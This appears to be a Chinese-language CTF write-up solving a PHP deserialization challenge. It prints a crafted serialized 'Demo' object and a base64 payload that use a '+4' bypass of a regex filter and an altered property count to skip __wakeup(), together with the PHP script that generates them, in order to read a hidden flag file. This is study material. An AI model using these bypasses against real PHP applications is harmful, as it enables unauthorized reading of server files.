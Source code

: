 绕过方法：在数字前面加一个'+'.

执行

```assembly
<?php

$demo = new Demo("flag.php");
echo(serialize($demo));
```

`O:4:"Demo":1:{s:10:" Demo file";s:8:"fl4g.php";}`

绕过\_\_wakeup()

`O:4:"Demo":2:{s:10:" Demo file";s:8:"fl4g.php";}`

绕过正则表达式

`O:+4:"Demo":2:{s:10:" Demo file";s:8:"fl4g.php";}`

base64加密

TzorNDoiRGVtbyI6Mjp7czoxMDoiIERlbW8gZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

?var=TzorNDoiRGVtbyI6Mjp7czoxMDoiIERlbW8gZmlsZSI7czo4OiJmbDRnLnBocCI7fQ==

不对

```assembly
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file;
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
    $A = new Demo('fl4g.php');
    $C = serialize($A);
    //string(49) "O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"
    $C = str_replace('O:4', 'O:+4',$C);//绕过preg_match
    $C = str_replace(':1:', ':2:',$C);//绕过wakeup
    var_dump($C);
    //string(49) "O:+4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}"
    var_dump(base64_encode($C));
    //string(68) "TzorNDoiRGVtbyI6Mjp7czoxMDoiAERlbW8AZmlsZSI7czo4OiJmbDRnLnBocCI7fQ=="
?>
```
